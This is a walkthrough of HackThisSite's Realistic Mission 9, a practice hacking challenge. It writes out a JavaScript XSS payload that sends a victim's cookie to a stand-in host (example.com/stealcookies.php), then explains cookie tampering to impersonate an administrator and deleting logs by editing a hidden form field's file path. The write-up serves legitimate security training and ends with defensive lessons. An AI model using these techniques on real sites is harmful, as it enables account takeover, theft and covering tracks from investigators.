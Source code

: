 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friends-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss-cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a look at the pages we can access without needing to log in. Contact leads to a generic form to send a message to the company, nothing fancy there. But the Mailing List and Demo pages drop an important clue. On the Mailing List page, it's the form which has this line: `<input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom, directory listing is on. Click through the folders and you'll notice a log file at ./files/logs/logs.txt. It seems to record login data. Thinking back to our steps in [Realistic Mission 8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md), we'll probably need to clear logs in this mission as well once we pay our friend.

We've learned an important insight, but for now, let's focus on paying our friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account credentials he provided. Once we're logged in, you'll notice a cookie gets saved to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries. Click it right now and you'll get a message saying: You are not an administrator.

I spent a while looking into [privilege escalation](https://portswigger.net/web-security/access-control), my thinking being that maybe there was some way to give our friend's account administrator privileges and then be able to pay his salary. That approach didn't really pan out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private Message functionality. The functionality is actually vulnerable to a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack, meaning we can inject JavaScript into a page and execute it in another user's browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so we've got to simulate it and think through it to the best of our ability. When the boss opens your message, his browser will execute this code (because the web application doesn't properly filter out rogue JavaScript) and it will redirect his browser to http://example.com/stealcookies.php?[boss_login_cookie]. In this simulation the idea would be that you control the site in question – which in this case is example.com – and stealcookies.php is a script which would save your boss' cookie for you to retrieve later. The script might just save the data to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying something like this:\
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:\
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS attack, so we just got the cookie information provided to us. We could have probably guessed the boss would have intID=1, but we wouldn't have known his password (either the plain text version or the hashed version). But now we've got it all. Update your cookie to reflect the indID, strPassword, and strUsername values we've now obtained and we're now effectively logged in as the boss. Click the Pay Salaries link and click the Pay button next to your friend's email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by subscribing to them. This goes back to what we saw earlier, before logging in. We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how to accomplish these steps. If we go to the Mailing List page, there's this message:
(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at ./files/logs/logs.txt. So, change the value of the hidden input type to that file path, click Subscribe, and you're done. This functionality will clear the log file and we've completed the mission.

## Key Concepts
Cookie tampering\
Cookie stealing\
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what really allowed us to complete the mission. Modern practices call for things like authentication cookies which the backend validates to make sure a user isn't editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major web security issue. Any time someone can inject rogue JavaScript onto a page which can then be executed in the browser of another user, that's a big problem. There's no shortage of malicious things an attacker can do using an XSS bug, but stealing cookies is a common one. That's why companies often allocate major resources -- including paying cash rewards -- to people who identify and report XSS vulnerabilities.
